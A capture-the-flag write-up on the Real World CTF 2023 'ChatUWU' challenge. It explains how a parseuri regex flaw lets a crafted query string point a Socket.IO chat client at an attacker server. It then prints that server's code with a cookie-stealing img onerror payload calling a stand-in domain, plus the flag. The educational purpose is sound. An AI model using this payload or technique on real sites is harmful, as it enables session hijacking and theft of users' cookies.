 ```yaml
---
layout: post
title: "Real World CTF 2023: ChatUWU Writeup"
categories: writeups
author: WhoNeedsSleep
---
```


[Real World CTF 2023](https://realworldctf.com/challenge) is a jeopardy-style capture-the-flag event, known for its realistic challenges.
We participated as part of the [Sauercloud](https://ctftime.org/team/54748) CTF team.

## Overview
The challenge description reads: "I can ensure you that there is no xss on the server! You will find the flag in the admin's cookie." Also provided are links to the challenge and the XSS bot, as well as the source code. So immediately our goal is clear: steal the cookies of the XSS bot!

Let's take a look at the application:
The challenge is a simple Node.js app with one static HTML file, that is served, and a single `index.js` for the backend. The app is a simple chat app.

## Let's find an XSS

Upon taking a look at `index.html` we first see that it uses `Socket.IO` for the chat communication with the server and also quickly find this:
```js
socket.on('msg', function (msg) {
    let item = document.createElement('li'),
        msgtext = `... ${msg.text}`;
    room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext 
    ...
    messages.appendChild(item);
    ...
```

So any messages received via `Socket.IO` are inserted into the DOM without sanitization if the chat-room's name is `DOMPurify` and the message's `isHtml` field is `true`.
So let's try to send a message containing an XSS payload

![Screenshot escaped Message](/imgs/rwctf23-chatuwu-escaped-message.png)

Clearly that didn't work -- so the server must have sanitized it before sending it back to all clients.

## The Server Code

Here we immediately see why our simple attempt failed:
```js
io.to(room).emit('msg', {
    from: DOMPurify.sanitize(msg.from),
    text: DOMPurify.sanitize(msg.text),
    isHtml: true
});
```
Any message sent to the clients is piped through DOMPurify -- RIP simple XSS.

## A Different Approach 

Given the simplicity of the app, we were pretty sure that the client side DOM injection is our way of stealing the cookie. So maybe, we can attack the connection by hijacking the `Socket.IO` connection.

Let's see how the client establishes the connection:
```js
let socket = io(`/${location.search}`) 
```

Interestingly, the entire query string is passed into `Socket.IO` for parsing. Let's take a look at how the parsing works. In the used `socket.io.js` we find this in the constructor:
```js
uri = parse(uri);
opts.hostname = uri.host
```
Looks promising. We can completely control `uri` except for the leading `/`. Let's dig deeper. For `parse` we find this:
```js
  // imported from https://github.com/galkn/parseuri

  /**
   * Parses an URI
   *
   * @author Steven Levithan <stevenlevithan.com> (MIT license)
   * @api private
   */
  ...
  function parse(str) {...}
```

In the repo we find this issue: (https://github.com/galkn/parseuri/issues/12)[https://github.com/galkn/parseuri/issues/12], and it's still open! Unfortunately, there are no details about the security issue, so we need to find it ourselves.

## The Vulnerability

Let's take a look at the regex used for the parsing of `uri`:
```js
var re = /^(?:(?![^:@]+:[^:@\/]*@)(http|https|ws|wss):\/\/)?((?:(([^:@]*)(?::([^:@]*))?)?@)?((?:[a-f0-9]{0,4}:){2,7}[a-f0-9]{0,4}|[^:\/?#]*)(?::(\d*))?)(((\/(?:[^?#](?![^?#\/]*\.[^?#\/.]+(?:[?#]|$)))*\/?)?([^?#\/]*))(?:\?([^#]*))?(?:#(.*))?)/;
```

The interesting part for us is that it checks for username/password as part of the uri and it does so by looking for any string in front of the first `@` in the passed uri, not just in the authority part. So if we append `@our.domain.invalid` to the end of `uri`, the parse function will treat everything between the protocol and the `@` as a username and `our.domain.invalid` as the hostname.
This is the vulnerability we need.

## The Exploit

Idea: We will host a malicious version of `index.js` ourselves with a key addition: a JavaScript payload that exfiltrates the cookie that is sent, instead of the normal join message. It is sent after a user joins to all users including the joining one.

Code:
```js
const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http, {
  cors: {
    origin: "*",
    methods: ["GET", "POST"]
  }
});
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = 80;
const rooms = ['textContent', 'DOMPurify'];


app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

io.on('connection', (socket) => {
    let {nickname, room} = socket.handshake.query;
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        text: "<img src onerror='fetch(\"https://our.domain.invalid/?\" + document.cookie)'>",
        isHtml: true
    });
});

http.listen(port, hostname, () => {
    console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```

We get the flag 🍉:
```
rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}
```
